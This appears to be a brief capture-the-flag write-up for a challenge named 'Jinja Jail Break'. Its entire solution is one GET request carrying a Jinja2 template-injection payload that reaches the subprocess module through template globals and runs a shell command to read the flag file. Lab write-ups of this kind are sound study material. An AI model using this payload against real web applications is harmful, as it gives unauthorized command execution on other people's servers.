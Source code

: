 # Jinja Jail Break

## Challenge
Name: Jinja Jail Break
Description: `Save me from the jail i've put on myself`
Hint: `SSTI? Whats that?`

## Solution
GET `/jail/{{g.__repr__.__globals__.sys.modules.get('subprocess').check_output("cat flag.txt", shell=True) }}`